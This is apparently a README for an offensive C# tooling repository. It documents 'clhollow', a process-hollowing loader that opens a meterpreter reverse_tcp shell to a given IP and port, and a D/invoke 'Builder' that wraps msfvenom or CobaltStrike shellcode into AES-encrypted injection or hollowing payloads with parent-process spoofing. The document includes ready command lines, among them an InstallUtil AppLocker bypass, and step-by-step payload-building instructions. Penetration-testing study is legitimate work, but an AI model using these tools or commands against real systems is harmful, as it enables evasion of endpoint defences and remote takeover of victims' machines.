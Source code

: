 ### clhollow Usage

C# project source code for (IP + port + process + parent-process) cli passed process hollowing payload. Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`.
> NOTE: If the target hollow process is in the PATH environment variable, you can use the shorthand. e.g. `svchost` could replace the below path.
```bat
:: normal
clhollow.exe 192.168.1.198 443 c:\\windows\\system32\\svchost.exe explorer

:: installUtil AppLocker Bypass
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /rhost=192.168.45.241 /rport=53 /process=svchost /parent=explorer /U C:\Users\Administrator\Desktop\clhollow.exe
```

### Updates from OSEP-Tools Version
- Added `clrunner`
- Added InstallUtil uninstall bypass to all


## [D_invoke](./D_invoke/Builder/Program.cs)

C# project that produces D/invoke payloads (basic, injector, hollower + ppid spoof) in exe, dll, or service exe format.  Use pre-built builder.exe in the D_Invoke directory.

This is a package built using TheWover's project and research as the foundation (https://github.com/TheWover/DInvoke, https://thewover.github.io/Dynamic-Invoke/).

The inspiration for this project was to simplify the process of generating compiled C# payloads.  By using this project, a user never need open visual studio when creating payloads.

### General Usage Steps

1. Generate shellcode
    - This was built with msfvenom shellcode in c# as the primary input, however it was retooled to take .bin files during some testing with CobaltStrike
    - i.e. it takes C# & binary input
2. Format the shellcode for use with `Builder.exe` using the [formatshellcode.py](./formatters/formatshellcode.py) script (for msfvenom shellcode)
3. Transfer formatted shellcode to your Windows dev machine
4. Run builder.exe with the proper switches
5. Voila. You have your AES encryped shellcode D/invoke payload in whatever format and technique you want!

### Details 

The foundation of this package is `Builder.exe`.  This application allows the user to specify several options to include:

1. Format of payload (`/F:`)
    - EXE, DLL, OR Service EXE
2. Technique (`/T:`)
    - Local injection
    - Remote injection
    - Process hollowing with PPID spoofing
3. Shellcode file (`/S:`)
    - File containing parsed shellcode
4. Process name (`/P:`)
    - Process to corrupt for injection
        - Must be pretty name, e.g. `explorer`
    - Process to spawn for hollowing
        - Must be absolute path, e.g. `c:\\windows\\system32\\svchost.exe` (escape backslashes)
5. Parent Process (`/X:`)
    - Process for PPID spoofing with process hollowing technique